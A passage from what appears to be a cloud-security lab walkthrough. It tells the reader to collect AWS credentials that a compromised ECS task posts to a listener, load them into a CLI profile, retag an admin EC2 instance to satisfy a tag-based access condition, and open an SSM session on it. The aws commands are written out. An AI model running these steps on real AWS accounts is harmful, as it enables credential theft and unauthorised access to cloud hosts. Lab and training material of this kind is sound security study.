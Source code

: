 * Wait for the task to run and **POST** the credentials to your listener.

<p align="center">
  <img src="/images/cloud/post_credentials1.png">
</p>

* With the **new creds** add them to "ruse_box"

```bash
aws configure --profile ecs
```

<p align="center">
  <img src="/images/cloud/aws_new_profile_ecs.png">
</p>

* Modify **Admin EC2 tags**.

```bash
aws ec2 create-tags --resources <INSTANCE ID> --tags Key=StartSession,Value=true
```

<p align="center">
  <img src="/images/cloud/create_tags.png">
</p>

* Start a **session** on Admin EC2.

```bash
aws ssm start-session --target <INSTANCE ID> --profile ecs
```

<p align="center">
  <img src="/images/cloud/ssm_user_login.png">
</p>